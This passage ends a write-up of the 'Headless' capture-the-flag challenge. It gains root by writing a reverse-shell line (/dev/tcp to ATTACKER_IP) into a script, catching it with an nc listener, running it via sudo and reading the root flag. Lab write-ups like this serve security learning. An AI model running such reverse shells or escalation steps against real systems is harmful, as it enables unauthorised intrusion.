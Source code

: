 We can modify it my including another web shell, execute it with admin rights and have a shell as root
```bash
echo "sh -i >& /dev/tcp/ATTACKER_IP/12345 0>&1" > initdb.sh
```

Create another listener on your machine (remember to chose a different port this time)
```bash
nc -lvnp 12345
```

Now we can run the script file
```bash
sudo /usr/bin/syscheck
```

And in a couple of second we have again another shell, if we run the `whoami` command we see that we are root.
Navigate to the root directory and open the final flag
```bash
cd /root
```
```bash
cat /root.txt
```

<br>

Congratulations, you have completed the Headless challenge, i had a lot of fun doing it hope you did as well. <br>
If you wanna see more write ups you can check the WriteUps Directory in this GitHub repo. <br>
Catch you in the next CTF 😃 <br>
